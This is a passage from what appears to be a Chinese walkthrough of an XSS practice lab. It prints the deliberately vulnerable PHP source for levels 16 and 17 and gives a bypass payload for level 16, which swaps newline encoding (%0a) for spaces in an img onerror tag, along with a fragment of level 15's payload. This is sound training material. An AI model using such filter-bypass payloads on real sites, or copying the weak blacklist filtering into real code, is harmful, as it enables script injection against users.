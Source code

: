 **payload**
```php
?src='http://xxx.xxx.xxx.xxx.xxx'
```

#### 第十六关

```php
<!DOCTYPE html><!--STATUS OK--><html>
<head>
<meta http-equiv="content-type" content="text/html;charset=utf-8">
<script>
window.alert = function()  
{     
confirm("完成的不错！");
 window.location.href="level17.php?arg01=a&arg02=b"; 
}
</script>
<title>欢迎来到level16</title>
</head>
<body>
<h1 align=center>欢迎来到level16</h1>
<?php 
ini_set("display_errors", 0);
$str = strtolower($_GET["keyword"]);
$str2=str_replace("script","&nbsp;",$str);
$str3=str_replace(" ","&nbsp;",$str2);
$str4=str_replace("/","&nbsp;",$str3);
$str5=str_replace("	","&nbsp;",$str4);
echo "<center>".$str5."</center>";
?>
<center><img src=level16.png></center>
<?php 
echo "<h3 align=center>payload的长度:".strlen($str5)."</h3>";
?>
</body>
</html>


```

输出点在 html 中，过滤了 script、空格、斜杠以及一个大空格？
可以尝试使用别的标签，但是不能有空格，使用什么可以代替空格呢？答案是 %0a

```php
<img%0asrc=1%0aonerror=alert(1)>
```
#### 第十七关

```php
<!DOCTYPE html><!--STATUS OK--><html>
<head>
<meta http-equiv="content-type" content="text/html;charset=utf-8">
<script>
window.alert = function()  
{     
confirm("完成的不错！"); 
}
</script>
<title>欢迎来到level17</title>
</head>
<body>
<h1 align=center>欢迎来到level17</h1>
<?php
ini_set("display_errors", 0);
```